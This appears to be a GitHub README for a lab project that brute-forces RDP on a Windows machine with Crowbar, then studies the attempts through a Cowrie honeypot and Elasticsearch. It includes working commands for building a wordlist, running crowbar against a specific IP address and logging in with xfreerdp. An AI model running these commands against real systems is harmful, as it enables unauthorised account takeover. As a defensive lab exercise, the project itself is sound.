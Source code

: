 # 🔐 Simulating a Brute-Force Attack Using Crowbar in a Controlled Lab Environment

**Overview:**

This project showcases a controlled brute-force attack simulation on a Windows machine to demonstrate effective detection and response techniques. Crowbar, a powerful brute-forcing tool, targets protocols such as RDP, SSH, and VNC in this simulation. The objective is to understand attacker behaviors and enhance proactive defenses in a lab environment.

# Disclaimer: This is an educational project designed for secure lab environments only. Unauthorized brute-force attacks are illegal and unethical.

<img width="333" alt="Screenshot 2024-11-02 155759" src="https://github.com/user-attachments/assets/af465a8b-5790-43cd-a161-72d9a941f009">

**Tools & Setup**

- Crowbar: Brute-forcing tool for RDP, VNC, and SSH protocols.
- Cowrie: Honeypot for capturing brute-force attempts.
- Elasticsearch & Kibana: To log and analyze brute-force data.

- 🔧 **Steps to Reproduce**
1️⃣ Set Up Crowbar on Kali Linux
Crowbar typically comes pre-installed on Kali Linux. If not, install it using:

```bash
# Install Crowbar if not already installed
sudo apt install crowbar
```
2️⃣ Prepare Your Wordlist 📄
Crowbar requires a wordlist to attempt different passwords. Kali Linux provides several options, including the popular rockyou.txt:
```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
head -20 /usr/share/wordlists/rockyou.txt > /home/homelab/test.txt
```
Example of the first 20 passwords in rockyou.txt:

<img width="252" alt="Screenshot 2024-11-02 161103" src="https://github.com/user-attachments/assets/242642e9-4806-4835-bc89-b7175943def8">

Optional: Customize the wordlist by adding or editing entries:
```bash
nano test.txt
```
3️⃣ Choose Your Target Protocol 🔒
Crowbar supports several protocols (RDP, VNC, SSH). This simulation targets RDP on a Windows environment.
```bash
crowbar -b rdp.
```
<img width="393" alt="Screenshot 2024-11-02 161934" src="https://github.com/user-attachments/assets/4cac223e-23da-4f51-bffb-a35bdfed15fb">


4️⃣ Configure the Honeypot 🛡️
Set up Cowrie as an SSH/Telnet honeypot to capture and log brute-force attempts.
```bash
sudo apt update
sudo apt install cowrie
sudo systemctl start cowrie
```
Ensure the honeypot VM is isolated and configured to log attempts in a secure environment.

5️⃣ Run the Attack 🎯
Execute the brute-force attack with Crowbar, specifying the IP address, protocol, and custom wordlist:
```bash
crowbar -b rdp -U <username path> -C <password path or wordlist> -s <IP Address>
```
```bash
crowbar -b rdp -U target.txt -C test.txt -s 135.234.96.24/32
```
<img width="393" alt="Screenshot 2024-11-02 161934" src="https://github.com/user-attachments/assets/c5b13c2f-7178-41f2-8292-8a78be4ec6a6">


6️⃣ Successful Remote Logon ✅
Once you achieve a successful brute force, log in to the target machine using xfreerdp:
```bash
xfreerdp /u:<username> /p:<password> /v:<IP address>
```
7️⃣ Log & Analyze Attempts 📊
Import the honeypot logs into Elasticsearch or your preferred SIEM tool for in-depth analysis:

Visualization: Analyze brute-force patterns, frequency, and timing to gain insights into attacker behaviors and response techniques.
#
**🚀 Results & Insights**

Through this controlled simulation, we gain insights into:

- Common brute-force patterns
- Effective response strategies, such as account lockout policies and alert tuning
- Enhanced proactive defenses and detection techniques

**🎓 Conclusion**

This project bridges the gap between theory and practical cybersecurity skills by simulating real-world scenarios in a safe environment. It demonstrates valuable techniques in threat detection, incident response, and proactive defense.
